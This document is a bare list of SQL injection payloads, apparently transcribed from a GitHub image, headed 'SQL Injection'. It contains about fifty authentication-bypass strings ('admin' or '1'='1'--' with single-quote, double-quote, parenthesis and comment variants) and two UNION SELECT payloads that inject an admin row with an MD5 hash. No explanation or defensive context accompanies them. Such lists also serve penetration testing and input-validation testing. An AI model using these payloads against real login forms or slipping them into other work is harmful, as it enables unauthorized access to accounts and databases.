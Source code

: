 SQL Injection:  

    or 1=1
    or 1=1--
    or 1=1#
    or 1=1/*
    admin' --
    admin' #
    admin'/*
    admin' or '1'='1
    admin' or '1'='1'--
    admin' or '1'='1'#
    admin' or '1'='1'/*
    admin'or 1=1 or ''='
    admin' or 1=1
    admin' or 1=1--
    admin' or 1=1#
    admin' or 1=1/*
    admin') or ('1'='1
    admin') or ('1'='1'--
    admin') or ('1'='1'#
    admin') or ('1'='1'/*
    admin') or '1'='1
    admin') or '1'='1'--
    admin') or '1'='1'#
    admin') or '1'='1'/*
    1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
    admin" --
    admin" #
    admin"/*
    admin" or "1"="1
    admin" or "1"="1"--
    admin" or "1"="1"#
    admin" or "1"="1"/*
    admin"or 1=1 or ""="
    admin" or 1=1
    admin" or 1=1--
    admin" or 1=1#
    admin" or 1=1/*
    admin") or ("1"="1
    admin") or ("1"="1"--
    admin") or ("1"="1"#
    admin") or ("1"="1"/*
    admin") or "1"="1
    admin") or "1"="1"--
    admin") or "1"="1"#
    admin") or "1"="1"/*
    1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055  
